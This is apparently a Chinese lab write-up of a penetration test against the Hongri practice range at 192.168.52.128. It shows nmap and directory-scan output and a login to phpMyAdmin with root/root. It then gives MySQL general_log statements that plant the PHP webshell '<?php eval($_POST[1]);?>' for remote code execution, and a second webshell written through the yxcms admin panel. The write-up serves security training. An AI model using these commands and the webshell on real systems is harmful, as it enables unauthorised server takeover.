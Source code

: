## 信息收集

已知ip为**192.168.52.128**

首先**nmap**扫一下ip

```sh
┌──(root㉿xl-pc)-[~]
└─# nmap 192.168.52.128 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-26 22:42 CST
Nmap scan report for 192.168.52.128
Host is up (0.00074s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 5.22 seconds
```

直接看80端口是什么

![image-20221026225514546](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221026225514546.png)

最下面有个mysql检测和函数检测

![image-20221026225750629](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221026225750629.png)

弱密码**root** , **root**登陆成功，但是没连接手段

**dirsearch**扫下目录

```sh
┌──(root㉿xl-pc)-[~]
└─# dirsearch -u http://192.168.52.128/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/192.168.52.128/-_22-10-26_22-43-52.txt

Error Log: /root/.dirsearch/logs/errors-22-10-26_22-43-52.log

Target: http://192.168.52.128/

[22:43:53] Starting:
[22:43:53] 403 -  211B  - /%3f/
[22:43:53] 403 -  215B  - /%C0%AE%C0%AE%C0%AF
[22:43:53] 403 -  210B  - /%ff
[22:43:54] 403 -  220B  - /.ht_wsr.txt
[22:43:55] 403 -  223B  - /.htaccess.save
[22:43:55] 403 -  223B  - /.htaccess.orig
[22:43:55] 403 -  223B  - /.htaccess.bak1
[22:43:55] 403 -  225B  - /.htaccess.sample
[22:43:55] 403 -  224B  - /.htaccess_extra
[22:43:55] 403 -  221B  - /.htaccess_sc
[22:43:55] 403 -  223B  - /.htaccess_orig
[22:43:55] 403 -  221B  - /.htaccessOLD
[22:43:55] 403 -  222B  - /.htaccessOLD2
[22:43:55] 403 -  221B  - /.htaccessBAK
[22:43:55] 403 -  214B  - /.html
[22:43:55] 403 -  213B  - /.htm
[22:43:55] 403 -  223B  - /.htpasswd_test
[22:43:55] 403 -  220B  - /.httr-oauth
[22:43:55] 403 -  219B  - /.htpasswds
[22:43:57] 403 -  225B  - /Trace.axd::$DATA
[22:44:08] 403 -  225B  - /index.php::$DATA
[22:44:10] 200 -   14KB - /l.php
[22:44:12] 200 -    2KB - /phpmyadmin/README
[22:44:12] 200 -   32KB - /phpmyadmin/ChangeLog
[22:44:12] 200 -   71KB - /phpinfo.php
[22:44:12] 301 -  241B  - /phpMyAdmin  ->  http://192.168.52.128/phpMyAdmin/
[22:44:12] 301 -  241B  - /phpmyadmin  ->  http://192.168.52.128/phpmyadmin/
[22:44:13] 200 -    4KB - /phpmyadmin/index.php
[22:44:13] 200 -    4KB - /phpMyAdmin/
[22:44:13] 200 -    4KB - /phpmyadmin/
[22:44:13] 200 -    4KB - /phpMyadmin/
[22:44:13] 200 -    4KB - /phpmyAdmin/
[22:44:13] 200 -    4KB - /phpMyAdmin/index.php
[22:44:19] 403 -  226B  - /web.config::$DATA

Task Completed
```

发现**phpMyAdmin**

弱密码连接成功

## mysql getshell

### test

![image-20221026230330792](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221026230330792.png)

发现了这么几个表

很明显，**newyxcms**有其他服务在用，稍后再来看这个

```mysql
先查下版本
SELECT VERSION( )

version()
5.5.53

insert into user(cmd) values (load_file('C:\Windows\win.ini'));读文件失败，双写斜杠同样失败

select "cmd" into outfile 'C:\Windows\1.txt';写文件被禁用
```

在查[**mysql getshell**](https://blog.csdn.net/unexpectedthing/article/details/123562645)的时候发现了一个特殊的方式

### general_log

利用**general_log**会记录用户执行的命令，将**general_log**的文件更改为当前http服务下的php文件，再写入一句话木马即可**getshell**

```mysql
show variables like '%general%';             #查看配置
#在这里得到了一个关键的目录信息 C:\phpStudy\MySQL\data\mysql
#说明了服务是在phpStudy下的，而根据phpStudy的目录结构，显然 C:/phpStudy/WWW/phpMyAdmin/ 为当前http服务的文件夹

set global general_log = on;                 #开启general log模式

set global general_log_file = 'C:/phpStudy/WWW/phpMyAdmin/shell.php'; #设置日志目录为shell地址

select '<?php eval($_POST[1]);?>'             #写入shell

set global general_log=off;                  #关闭general log模式
```

直接访问**shell.php**就可rce

![image-20221026235206040](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221026235206040.png)

蚁剑连接后执行命令可发现是最高权限，拿下该服务器

## yxcms

上一部分提到的**newyxcms**

访问http://192.168.52.128/yxcms/进入，后台以及账号密码都直接写出来了

进入后台在这里可以看到很多php文件，随便写个一句话木马

![image-20221027000116128](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221027000116128.png)

在**index_index.php**中写入一句话木马

![image-20221027000612321](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221027000612321.png)

然后访问首页

![image-20221027000607402](D:\Typora\note\红蓝对抗\红日靶场1.assets\image-20221027000607402.png)

同样可rce拿到最高管理员权限

两种**rce**的方式说完了，接下来就是拿到权限后**内网渗透**的部分啦！